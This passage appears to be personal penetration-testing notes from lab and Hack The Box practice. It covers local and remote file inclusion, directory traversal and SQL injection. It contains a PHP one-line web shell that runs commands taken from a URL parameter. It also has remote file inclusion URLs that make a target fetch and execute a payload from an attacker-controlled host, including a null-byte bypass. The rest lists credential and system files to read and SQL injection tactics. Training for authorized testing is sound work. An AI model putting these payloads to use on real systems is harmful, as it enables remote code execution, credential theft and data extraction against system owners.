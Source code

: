```
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```


## RFI
remote file inclusion

```
//kali apache2目录写入 一句话木马txt，启动apache2
<?php echo shell_exec($_GET['cmd']); ?>     //写入文件  abc.txt, /var/www/html
sudo systemctl restart apache2

// RFI 利用
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig

# php 5.3 before, add %00 to avoid appending .php
# %00 not work, add ?, the rest will be interpreted as url para
# [lab-phoenix]
https://10.11.1.8/internal/advanced_comment_system/admin.php?&pw=admin&ACS_path=http://192.168.119.196/evilconfig.txt%00
```

## Directory Traveral
+ Web server exploit
+ get special files, passwd/ssh key/config files and so on.

```bash
.ssh/id_rsa
/etc/passwd

```

## SQLi
+ bypass login
+ update/insert user/pwd
+ wfuzz to check sqli with Generic-SQLi list, url params/post data
+ wfuzz to bypass waf with specialchar list
+ register function with sqli payload, exploit at the search function(after login); htb-secnotes.
+ sqli payload, auth bypass/waf bypass/cheatsheet; [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
+ write file to rce, notice the special char(?>; +)
+ extract data, error based/blind(timebased)
+ extract data, [mssql cheat sheet]( https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
+ google search key: mssql injection cheatsheet
+ mssql enum ad users; htb multimaster
